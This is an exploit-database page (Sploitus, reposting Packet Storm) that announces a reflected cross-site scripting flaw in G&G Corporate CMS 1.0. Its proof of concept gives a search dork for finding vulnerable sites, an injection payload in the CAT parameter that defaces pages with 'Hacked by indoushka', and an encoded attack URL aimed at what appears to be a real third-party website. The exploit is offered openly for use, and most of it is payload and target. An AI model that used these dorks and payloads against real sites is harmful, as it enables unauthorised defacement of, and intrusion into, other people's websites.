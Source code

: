 ```yaml
---
title: G And G Corporate CMS 1.0 Cross Site Scripting exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:174287&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-08-24
fetch_date: 2025-10-04T11:59:12.560512
---
```


# G And G Corporate CMS 1.0 Cross Site Scripting exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for G And G Corporate CMS 1.0 Cross Site Scripting

2023-08-23 | CVSS 7.1

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:174287
====================================================================================================================================
| # Title : G&G Corporate CMS v1.0 XSS Vulnerability |
| # Author : indoushka |
| # Tested on : windows 10 Français V.(Pro) / browser : Mozilla firefox 66.0.2(32-bit) |
| # Vendor : http://gegweb.it |
| # Dork : intext:Powered by Studio G&G Corporate Communication site:it |
====================================================================================================================================

poc :

[+] Dorking İn Google Or Other Search Enggine.

[+] Use payload : /prodotti.php?LANG=2&id=prodotti&CAT=1'<marquee><font color=lime size=32>Hacked by indoushka</font></marquee>

[+] http://priolinoxit/prodotti.php?LANG=2&id=prodotti&CAT=1%27%3Cmarquee%3E%3Cfont%20color=lime%20size=32%3EHacked%20by%20indoushka%3C/font%3E%3C/marquee%3E

Greetings to :=================================================================
jericho * Larry W. Cashdollar * shadow_00715 * LiquidWorm * Hussin-X * D4NB4R |
===============================================================================
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)